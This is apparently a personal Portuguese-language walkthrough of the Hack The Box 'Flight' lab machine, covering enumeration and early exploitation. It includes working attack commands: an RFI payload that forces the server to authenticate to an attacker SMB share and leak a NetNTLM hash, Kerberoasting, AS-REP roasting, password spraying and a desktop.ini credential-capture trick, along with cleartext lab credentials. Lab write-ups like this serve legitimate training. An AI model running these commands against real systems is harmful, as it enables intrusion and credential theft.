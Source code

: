 Flight
======

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../../media/qownnotes-media-VMuwah.png)

UDP scan

![qownnotes-media-VMgxgZ](../../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![qownnotes-media-Wvevvm](../../../media/qownnotes-media-Wvevvm.png)

Então temos:

DNS
HTTP
Kerberos
RPC
SMB
LDAP


### HTTP

![qownnotes-media-zNgBXB](../../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

    school.flight.htb

### SMB

![qownnotes-media-bkzCgk](../../../media/qownnotes-media-bkzCgk.png)

    g0.flight.htb

![qownnotes-media-DQoVIc](../../../media/qownnotes-media-DQoVIc.png)


### RPC

![qownnotes-media-kBtyxd](../../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../../media/qownnotes-media-LnGbjN.png)

### Kerberos

    kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187

![qownnotes-media-RAnyke](../../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../../media/qownnotes-media-OyCEfo.png)


### HTTP continue

    school.flight.htb

![qownnotes-media-iUmICa](../../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

    ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102

![qownnotes-media-XXURur](../../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../../media/qownnotes-media-KrRjij.png)


    g0.flight.htb
 
 ![qownnotes-media-CDlMtu](../../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

    ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102


![qownnotes-media-NHAXrq](../../../media/qownnotes-media-NHAXrq.png)


![qownnotes-media-RlSMVb](../../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../../media/qownnotes-media-GeVlbb.png)


## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

    impacket-smbserver -smb2support smb .

    http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
    
Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

    impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request

As Rep Roasting:

    impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes
    
    enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
     
 Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml
 Enumerei pelo bloodhound:
 
     bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
     
Sem sucesso. Password Spray:

    crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
    
    crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

![qownnotes-media-ZJWfVt](../../../media/qownnotes-media-ZJWfVt.png)


Continuando a enumeração:

    crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares

![qownnotes-media-Swipnb](../../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

    crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares


